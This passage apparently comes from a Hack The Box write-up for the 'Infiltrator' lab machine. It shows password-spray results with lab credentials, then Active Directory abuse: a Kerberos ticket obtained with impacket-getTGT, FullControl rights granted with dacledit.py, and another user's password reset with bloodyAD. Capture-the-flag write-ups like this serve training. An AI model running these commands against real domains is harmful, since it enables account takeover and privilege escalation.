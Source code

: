 ```c
2024/08/31 22:52:09 >  Using KDC(s):
2024/08/31 22:52:09 >   10.129.223.154:88

2024/08/31 22:52:10 >  [+] VALID LOGIN:  d.anderson@infiltrator.htb:WAT?watismypass!
2024/08/31 22:52:10 >  [+] VALID LOGIN:  l.clark@infiltrator.htb:WAT?watismypass!
2024/08/31 22:52:10 >  Done! Tested 35 logins (2 successes) in 0.127 seconds
```

| Username   | Password         |
| ---------- | ---------------- |
| d.anderson | WAT?watismypass! |

## Foothold

### Shadow Credentials

From our `BloodHound investigation` we knew that the next step was to use a `Shadow Credentials` attack to add `d.anderson` to the group of `MARKETING DIGITAL`. To perform this attack we first grabbed ourselves a valid `Kerberos Ticket` and made it available in our current session.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ impacket-getTGT infiltrator.htb/d.anderson:'WAT?watismypass!'
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Saving ticket in d.anderson.ccache
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ export KRB5CCNAME=d.anderson.ccache
```

After fixing `dacledit.py` and adding ourselves to the desired group of `MARKETING DIGITAL`, we used `bloodyAD` to set a `new password` for `E.rodriguez` according to our `attack path`.

- [https://github.com/0xsyr0/OSCP#dacleditpy](https://github.com/0xsyr0/OSCP#dacleditpy)
- [https://github.com/CravateRouge/bloodyAD](https://github.com/CravateRouge/bloodyAD)

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ python3 dacledit.py -action write -rights 'FullControl' -principal 'd.anderson' -target-dn 'OU=MARKETING DIGITAL,DC=INFILTRATOR,DC=HTB' -inheritance infiltrator.htb/'d.anderson:WAT?watismypass!' -k -use-ldaps -dc-ip dc01.infiltrator.htb       
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20240901-083444.bak
[*] DACL modified successfully!
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ bloodyAD --host "dc01.infiltrator.htb" -d "infiltrator.htb" --kerberos --dc-ip 10.129.223.154 -u "D.anderson" -p 'WAT?watismypass!' set password "E.rodriguez" 'WAT?watismypass!'
[+] Password changed successfully!
```
